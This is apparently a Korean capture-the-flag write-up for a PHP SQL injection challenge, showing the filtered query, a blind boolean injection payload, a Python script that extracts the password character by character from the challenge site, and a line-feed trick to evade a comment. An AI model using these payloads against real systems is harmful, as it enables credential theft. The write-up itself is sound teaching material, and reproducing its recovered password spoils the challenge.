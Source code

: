 <img width="154" alt="스크린샷 2020-01-11 오후 5 18 10" src="https://user-images.githubusercontent.com/54495632/72201356-715ed300-3496-11ea-95eb-d6549c0c86af.png">

Lv 12.

<img width="797" alt="스크린샷 2020-01-11 오후 5 18 21" src="https://user-images.githubusercontent.com/54495632/72201357-76bc1d80-3496-11ea-8432-cf02f04ae3bd.png">

소스코드와 쿼리를 보자.

  $id = $_GET['id'];
  $pw = $_GET['pw'];

  if(preg_match('/play|_|\.|\(\)|info/i', $id)){ exit("Nope !!");}
  if(preg_match('/play|_|\.|\(|\)|info/i', $pw)){ exit("Nope !!");}

딱히 특별한 필터링 조건은 없다. 나머지 if elseif else 문도 그 전 문제와 같으나

$query = "SELECT * FROM play_sql12 WHERE id='$id'# and pw='$pw'";
쿼리를 보면 id 이후 #으로 주석이 붙게 된다.
해당 쿼리문을 우회하기위해 line feed를 이용하기로 했다.

우선 주석 전에서 length 함수를 통해 pw의 길이를 찾기로 했다.
<img width="710" alt="스크린샷 2020-01-11 오후 5 44 04" src="https://user-images.githubusercontent.com/54495632/72201801-05329e00-349b-11ea-98b6-721ee7b10357.png">
<img width="701" alt="스크린샷 2020-01-11 오후 5 44 35" src="https://user-images.githubusercontent.com/54495632/72201802-0794f800-349b-11ea-87d2-9b91172e05da.png">

pw 의 길이는 8이고 이 정보를 통해 파이썬을 이용하여 pw를 구했다.

전체 쿼리를 봤을 때 주석 전까지만 이용하여
select * from play_sql12 where id=''or ascii(substr(pw,1,1))=값#'# and pw='' 의 형식으로 쿼리를 반복문으로 던져 주면
pw 8자리 값을 찾을 수 있다.

<img width="256" alt="스크린샷 2020-01-11 오후 5 50 27" src="https://user-images.githubusercontent.com/54495632/72201817-3d39e100-349b-11ea-80c7-5d3a0e55fd5f.png">

import requests

cookies={'PHPSESSID':'쿠키값'}
url="http://crackus.jeju.kr/chall12.php?id="

pw=""
for i in range(1,9):
    for j in range(33,128):

        query="&id=%27or+ascii%28substr%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Good J0b :)")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)

pw = c0ngr@z~ 이다.

<img width="726" alt="스크린샷 2020-01-11 오후 5 59 20" src="https://user-images.githubusercontent.com/54495632/72201871-1c25c000-349c-11ea-9cec-f9d07dd550ab.png">

pw 는 성립한다.

id 뒤에 있는 주석을 line feed %0a 를 주어 피하고 pw를 입력했다.

<img width="739" alt="스크린샷 2020-01-11 오후 6 01 13" src="https://user-images.githubusercontent.com/54495632/72201904-a837e780-349c-11ea-8f54-9ded08893cdf.png">

해결